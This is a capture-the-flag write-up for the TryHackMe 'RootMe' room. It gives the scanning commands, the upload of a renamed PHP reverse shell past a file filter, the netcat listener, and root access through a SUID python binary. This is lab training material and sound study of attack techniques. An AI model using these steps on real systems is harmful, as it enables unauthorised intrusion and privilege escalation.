 ```yaml
---
description: https://tryhackme.com/room/rrootme
---
```


# RootMe

## :map: Reconnaissance

### **Scan the machine, how many ports are open?**

```
nmap 10.10.203.184
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-11-19.png>)

### **What version of Apache are running?**

```
nmap -sV -p80 10.10.203.184
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-12-48.png>)

### **What service is running on port 22?**

> **ssh**

### **What is the hidden directory?**

```
gobuster dir -u http://10.10.203.184 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-15-08.png>)

## :shell: Getting a shell

```bash
mv php-reverse-shell.php shell.php5
# http://10.10.203.184/panel
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-31-22.png>)

```bash
nv -nvlp 4444
# http://10.10.203.184/uploads
$ find / -type f -name user.txt 2>/dev/null
$ cat /var/www/user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-41-18.png>)

## :top: Privilege escalation

```
$ find / -type f -perm -4000 2>/dev/null
$ python -c 'import pty; pty.spawn("/bin/bash")'
$ /usr/bin/python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
# cat /root/root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-34-35.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-24 09-51-19.png>)

## :link: Support Material

{% embed url="https://github.com/xapax/security/blob/master/bypass_image_upload.md" %}

{% embed url="https://gtfobins.github.io/gtfobins/python/#suid" %}
